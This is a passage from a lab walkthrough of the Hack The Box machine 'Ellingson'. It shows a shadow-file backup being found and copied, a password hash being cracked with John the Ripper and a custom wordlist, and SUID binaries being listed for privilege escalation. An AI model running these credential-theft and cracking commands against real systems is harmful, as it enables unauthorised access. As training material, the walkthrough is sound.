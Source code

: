 Looking at files that the adm has access to, one stands out and that is a backup of the shadow file which is where Linux keeps the hashed password information for users.

```bash
hal@ellingson:~$ find / -group adm 2>/dev/null
/var/backups/shadow.bak
/var/spool/rsyslog
/var/log/auth.log
<SNIP>
hal@ellingson:~$
```

Copy the shadow.bak to your local directory with scp:

```bash
┌─[rin@parrot]─[~/boxes/Ellingson]
└──╼ $scp -i hal.key hal@ellingson.htb:/var/backups/shadow.bak .
```

In the shadow file there are entries for the users theplague, hal, margo and duke. The hashes can be copied into a separate file for cracking with John The Ripper. Before you do that however, you can create a custom wordlist. On the website, a note from ThePlague suggests that the most common passwords are Love, Secret, Sex and God. So you can try to crack the passwords just using words from rockyou.txt that have these four words as part of them:

```bash
grep -E ​'love|sex|secret|god'​ /usr/share/wordlists/rockyou.txt > wordlist
Then using that word list with john:
┌─[rin@parrot]─[~/boxes/Ellingson]
└──╼ $john --wordlist=./wordlist hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iamgod$08 (?)
```



This returns a password **iamgod$08** which can be tested for the 4 users with SSH to find out that it works with the user **margo**.

As the user margo, we can start our enumeration on the box looking for paths to privilege escalation. We cover this process in Chapter 8, but for the time being, if we run the find command, we can look for binaries that have the SUID bit set:

```bash
find / -perm -u=s -type f 2>/dev/null
```

This will highlight a number of files but one that is not normally found on Linux boxes is the program /usr/bin/garbage that has the suid bit set binary. When you examine the permissions of a file, the x which stands for execute permission is replaced with s. This means that when the binary is run, it will run as the owner of the file, which in this case is root.

```bash
margo@ellingson:~$ ls -al /usr/bin/garbage
-rwsr-xr-x 1 root root 18056 Mar 9 2019 /usr/bin/garbage
margo@ellingson:~$
```

